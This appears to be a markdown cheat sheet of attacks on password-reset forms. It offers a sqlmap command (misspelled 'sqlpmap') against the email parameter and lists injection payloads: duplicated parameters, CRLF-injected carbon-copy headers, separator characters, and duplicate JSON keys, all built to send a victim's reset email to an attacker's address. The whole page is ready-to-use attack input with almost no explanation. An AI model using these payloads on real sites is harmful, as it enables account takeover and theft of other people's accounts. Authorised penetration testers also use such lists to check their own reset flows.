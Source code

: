 #### Try sqlmap in the email parameter as backend involvement may occur 
````
sqlpmap -r pass_reset.txt -p email
````


#### Double parameter (aka. HPP / HTTP parameter pollution):
- email=victim@xyz.tld&email=hacker@xyz.tld
#### Carbon copy:
- email=victim@xyz.tld%0a%0dcc:hacker@xyz.tld
#### Using separators:
- email=victim@xyz.tld,hacker@xyz.tld
- email=victim@xyz.tld%20hacker@xyz.tld
- email=victim@xyz.tld|hacker@xyz.tld
#### No domain:
- email=victim
- email=victim@xyz
#### JSON table:
- {"email":["victim@xyz.tld","hacker@xyz.tld"]}

#### two JSON emails
````
{"email":"victim@mail.com","email":"attacker@mail.com"}
````
